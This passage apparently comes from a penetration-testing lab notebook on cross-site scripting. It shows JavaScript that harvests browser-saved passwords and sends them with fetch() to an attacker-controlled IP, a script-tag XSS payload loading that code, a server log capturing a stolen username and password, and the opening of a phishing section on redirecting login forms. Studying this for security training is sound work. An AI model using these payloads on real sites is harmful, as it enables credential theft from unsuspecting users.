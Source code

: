 ```javascript
//u.style.opacity = "0";

// append elements to the body
body.append(u)
body.append(p)

// set a GET request after a 5 second timeout
setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```
{% endcode %}

```javascript
// XSS payload
<script src='http://192.168.45.214/xssSavedPasswords.js'></script>
```

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [06/Aug/2024 07:12:54] "GET /xssSavedPasswords.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 07:12:59] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 07:12:59] "GET /k?u=Ryuggy&p=ShavedHeadsFTW HTTP/1.1" 404 -
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_savedPasswords.png" alt=""><figcaption><p>Figure 2: Exfiltrating saved passwords.</p></figcaption></figure>

## Phishing Users

Since we have full access to the HTML document, we could replicate an existing login page and change its `action` attribute to redirect the credentials to us (Figure 3).
